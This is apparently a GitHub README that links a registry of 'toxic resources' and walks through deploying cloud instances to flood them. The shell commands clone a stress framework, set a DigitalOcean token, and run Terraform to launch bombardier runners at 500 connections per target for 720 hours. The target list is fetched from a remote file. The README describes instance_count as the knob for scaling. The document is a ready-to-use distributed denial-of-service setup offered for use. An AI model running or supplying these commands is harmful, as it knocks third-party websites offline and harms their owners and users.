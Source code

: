 # Registry of toxic resources 
https://raw.githubusercontent.com/cyber-army-of-ukraine/toxic-resources/master/resources.txt

## How to stop
Feel free to use any tool you wish and synchronize it with resources registry.

If you don't know how to scale and run it in cloud feel free to use [Massive Stress Framework](https://github.com/ynovel/massivestress).  
1. Clone repository.
   ```shell
    git clone https://github.com/ynovel/massivestress.git
    ```
2. [Istall Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli#install-terraform).
3. Retrieve access token from your cloud provider.
4. Choose your bundle and run commands (below).

### Available bundles:
* Cloud "**Digital Ocean**", Runner "**alpine/bombardier**". Run in command line:
```shell
cd massivestress # path where cloned ynovel/massivestress repository is placed
export DIGITALOCEAN_ACCESS_TOKEN="<CHANGE TO YOUR PERSONAL ACCESS TOKEN>"
cd keys
/bin/sh gen_ssh_keys.sh
cd ../terraform/digital_ocean
terraform init
echo -e 'runner_resources_url = "https://raw.githubusercontent.com/hem017/cytro/master/targets_all.txt"
runner_bombardier_connections_per_resource = 500
instance_count = 3
instance_region = "fra1"
instance_type = "s-1vcpu-1gb"
runner_bombardier_duration = "720h"
' > terraform.tfstate
terraform apply # type "yes"
```
_instance_count_ config parameter stand for scalability :)